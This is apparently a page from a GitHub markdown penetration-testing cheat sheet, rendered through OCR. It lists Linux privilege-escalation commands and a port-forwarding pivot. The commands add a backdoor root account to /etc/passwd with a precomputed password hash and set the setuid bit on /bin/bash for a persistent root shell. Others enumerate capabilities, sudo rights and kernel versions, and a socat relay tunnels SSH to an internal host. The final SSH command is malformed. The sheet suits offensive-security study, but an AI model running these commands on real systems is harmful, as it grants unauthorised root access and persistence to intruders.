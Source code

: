 <a name="insecure-file-permissions"></a>
## Insecure File Permissions
`$ grep "CRON" /var/log/syslog`

<a name="abusing-password-authentication"></a>
## Abusing Password Authentication
`$ openssl passwd w00t`

`$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd`
`$ su root2`

<a name="easy-root-shell"></a>
## Easy root shell
`$ chmod u+s /bin/bash`

`$ /bin/bash -p`

<a name="abusing-setuid-binaries-and-capabilities"></a>
## Abusing Setuid Binaries and Capabilities
`$ /usr/sbin/getcap -r / 2>/dev/null`
> https://gtfobins.github.io

<a name="abusing-sudo"></a>
## Abusing sudo
`$ sudo -l`

<a name="exploiting-kernel-vulnerabilities"></a>
## Exploiting Kernel Vulnerabilities
`$ cat /etc/issue`

`$ uname -r`

`$ arch`

<a name="port-redirection-and-ssh-tunneling"></a>
# Port Redirection and SSH Tunneling

<a name="port-forwward-with-socat"></a>
## Port Forwward with socat
> from owned machine

`$ socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`

> to target machine

> from my Kali

`kali@kali:~$ database_admin@192.168.50.63 -p2222`
